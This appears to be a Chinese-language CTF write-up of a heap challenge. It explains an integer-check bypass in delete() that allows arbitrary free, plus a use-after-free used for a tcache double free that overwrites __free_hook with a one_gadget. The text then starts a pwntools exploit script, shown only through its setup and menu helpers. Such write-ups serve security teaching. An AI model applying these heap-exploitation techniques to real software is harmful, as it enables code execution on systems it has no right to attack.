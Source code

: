 战队师傅给的一道很有意思的堆题。

add里限制了堆块的大小，而且不是直接写入堆块，而是先创建一个0x10的小堆块，之后在小堆块里存储申请堆块的地址和大小。

![image-20230730213001293](https://raw.githubusercontents.com/BattiestStone4/imgs/master/2023/07/1690723805.png)

主要漏洞出现在delete里，这里对整数的判断是有漏洞的。在判断大于0时，可以将高符号位设为1，判断时会认定该数字满足小于15的条件。而在判断小于0时，低字节又大于0。这样的绕过之后，可以实现任意地址的free。

![image-20230730213324973](C:\Users\pc\AppData\Roaming\Typora\typora-user-images\image-20230730213324973.png)

又因为这里存在uaf漏洞，我们可以构造一个tcache里的double free，之后实现申请到free_hook并写入one_gadget。

![image-20230730220813240](https://raw.githubusercontents.com/BattiestStone4/imgs/master/2023/07/1690726094.png)

EXP如下：

```python
from pwn import *
import sys
remote_addr = ["",]
libc = ELF('./libc-2.27.so')
#elf = ELF('')
if len(sys.argv) == 1:
    context.log_level="debug" 
    #p = process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu/", "-g","1234","./stack"]) 
    #p = process(["qemu-aarch64", "-L", ".", "./stack"]) 
    p = process("./chall_patched")
    context(arch='amd64', os='linux')
    context.terminal = ['tmux', 'splitw', '-h']
if len(sys.argv) == 2 :
    if 'r' in sys.argv[1]:
        p = remote(remote_addr[0],remote_addr[1])
    if 'n' not in sys.argv[1]:
        context.log_level="debug" 
        #context(arch = 'amd64', os = 'linux')
r = lambda : p.recv()
rl = lambda : p.recvline()
rc = lambda x: p.recv(x)
ru = lambda x: p.recvuntil(x)
rud = lambda x: p.recvuntil(x, drop=True)
s = lambda x: p.send(x)
sl = lambda x: p.sendline(x)
sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)
shell = lambda : p.interactive()
pr = lambda name,x : log.info(name+':'+hex(x))

DEBUG = 1

def debug(bp = None):
    if DEBUG == 1:
        if bp != None:
            gdb.attach(p, bp)
        else:
            gdb.attach(p)

def menu(idx):
    sla(b'>', str(idx).encode())

def add(size):
    menu(1)
    sla(b'size: ', str(size).encode())

def delete(idx):
    menu(2)
```